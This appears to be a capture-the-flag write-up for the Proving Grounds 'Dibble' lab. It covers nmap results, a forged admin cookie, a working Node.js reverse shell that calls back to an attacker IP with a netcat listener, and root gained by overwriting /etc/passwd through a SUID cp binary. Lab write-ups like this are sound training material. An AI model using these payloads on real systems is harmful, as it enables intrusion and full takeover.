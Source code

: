 ```yaml
---
title: "Proving grounds Practice: Dibble"
layout: post
date: 2024-02-08 02:00
categories: writeup
---
```


Proving grounds Practice - Dibble CTF writeup.

# NMAP

```text
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))
3000/tcp  open  http    Node.js (Express middleware)
27017/tcp open  mongodb MongoDB 4.2.9
```

## 21/tcp    open  ftp     vsftpd 3.0.3
- [x] anonymous login 

## 80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))

File and Directory discovery
- http://192.168.213.110/
- http://192.168.213.110/web.config

## 3000/tcp  open  http    Node.js (Express middleware)

- Register a user.
- Change cookie from default to admin.
- Base64 encode the value and then url encode it.`userLevel=YWRtaW4%3D`
- Refresh the page.
- Add new event log.

#### node js reverse shell

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(80, "192.168.45.232", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

## Initial Foothold

```sh
naveenj@hackerspace:[09:37]~/proving_grounds/Dibble$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.110] 37530
id
uid=1000(benjamin) gid=1000(benjamin) groups=1000(benjamin)
ls -al
```

## Privilege Escalation

### Exfiltrated Information

```sh
 *   'database' => 'databasename',
 *   'username' => 'sqlusername',
 *   'password' => 'sqlpassword',
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
```

## SUID

```sh
-rwsr-xr-x. 1 root root 156K Apr 23  2020 /usr/bin/cp
```

### SUID Exploitation

- Read /etc/passwd and paste the contents in a file in the local machine.
- Add new sudo user entry to the file.
- Download the updated file to the attacking machine.
- Use `cp` to copy the updated file content to `/etc/passwd`.
- Switch to the new user which we created using the password.

```sh
[benjamin@dibble tmp]$ cp passwd /etc/passwd
cp passwd /etc/passwd
[benjamin@dibble tmp]$ su hacker
su hacker
Password: mypass

[root@dibble tmp]# cd /root
```

**Root Obtained**

### Reference

- https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
